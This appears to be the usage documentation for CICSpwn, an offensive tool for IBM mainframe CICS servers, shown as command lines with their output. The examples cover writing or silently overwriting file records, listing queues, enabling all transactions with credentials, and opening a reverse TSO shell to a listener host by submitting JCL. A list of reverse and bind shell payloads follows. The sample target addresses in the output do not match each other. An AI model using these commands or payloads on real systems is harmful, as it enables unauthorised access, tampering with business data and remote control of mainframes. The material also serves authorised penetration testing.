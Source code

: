 ## Add a record to a file
```
root@kali:~/cics# python cicspwn.py -a CICS 192.168.1.209 23 --add-record FILEA --num ' 400018' --data file.txt
[[+] Connecting to target 192.168.1.201:23
[*] Access to CICS Terminal is possible with APPID CICS
[*] File FILEA is enabled and open
[*] Record size: 80	keylength:6
[+] Adding record 400018 of file FILEA
[*] Record 400018 was added successfully to file FILEA

```
PS: if record number 400018 exists, CICSpwn updates the record automatically so please be careful.

## List TSQueues
```
root@kali:~/cics# python cicspwn.py -a CICS 192.168.1.209 23 -e
[+] Connecting to target 192.168.1.207:23
[*] Access to CICS Terminal is possible with APPID CICS
[+] Getting all tsqueues that match *
Tsqueue	Items	Length	Transaction
KOS5	00001	0000000064	CECI
TEST	00001	0000000064	CECI
TES5	00001	0000000064	CECI
...

```

## Activate ALL transactions
```
root@kali:~/cics# python cicspwn.py 192.168.1.207 23 -a CICS -U AYOUB -P AYOU1 --enable-tran ALL
[+] Connecting to target 192.168.1.207:23
[*] Access to CICS Terminal is possible with APPID CICS
[*] Successful authentication
[+] Activating ALL transactions
[*] All transactions are enabled
...
```

## Reverse shell using CICSpwn
```
root@kali:~/cics# python cicspwn.py -a CICS 192.168.1.209 23 -s reverse_tso -l 192.168.1.16:4445
[+] Connecting to target 192.168.1.209:23
[*] Access to CICS Terminal is possible with APPID CICS
[+] Setting the current terminal to mixed case
[*] Got TerminalID L702
[*] Current terminal is NOW mixed case
[+] Spool not available apparently, trying via TDQueue
[+] Writing to the internal TDQueue
	[*] JCL Written to TDqueue, it should be executed any second

```
## Available shell payloads
* **Reverse_tso**: spawns a reverse tso shell to the host specified by --lhost ip:port option.
* **direct_tso**: same as reverse_tso but binds the shell to --port option
* **reverse_unix**: spawns a reverse unix shell to the host specified by --lhost ip:port option.
* **direct_unix**: same as reverse_unix but binds the shell to --port option
* **ftp**: connects to a remote ftp server specified by --lhost ip:port and executes commands specified in file --ftp-cmds